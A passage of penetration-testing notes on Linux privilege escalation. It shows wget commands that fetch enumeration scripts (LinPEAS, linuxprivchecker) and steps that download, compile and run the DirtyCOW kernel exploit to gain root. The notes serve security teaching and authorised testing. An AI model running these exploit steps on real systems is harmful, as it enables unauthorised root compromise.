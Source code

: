 https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
http://netsec.ws/?p=309

### Automation

How much easier would it be to run a script that does much of this for us? Enter `LinPEAS` - Linux Privilege Escalation Awesome Script.

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

[LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

### Linux Privilege Escalation Checker

A python script that checks for privilege escalation vulnerabilities - will suggest local privilege escalation exploits for the system.

```bash
wget http://www.securitysift.com/download/linuxprivchecker.py
```

### Unix-privesc-check v1.4

Another tool by pentestmonkey - attempts to find misconfigurations that permit escalation.

http://pentestmonkey.net/tools/audit/unix-privesc-check

```bash
./unix-privesc-check standard
./unix-privesc-check detailed
```



## Exploiting the Linux Kernel

Lets use the DirtyCOW exploit.

```bash
wget http://www.exploit-db.com/download/40616 -O cowroot.c
```

Once downloaded, we need to uncomment the correct payload (x86 or x64) as both are included.
Afterwards, we can compile the exploit:

```bash
gcc cowroot.c -o cowroot -pthread
```

Lastly, we can run the exploit:

```bash
./cowroot
```

With permissions successfully escalated, comments suggest to run the following command to prevent the system from becoming unstable and crashing:
```bash
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
```
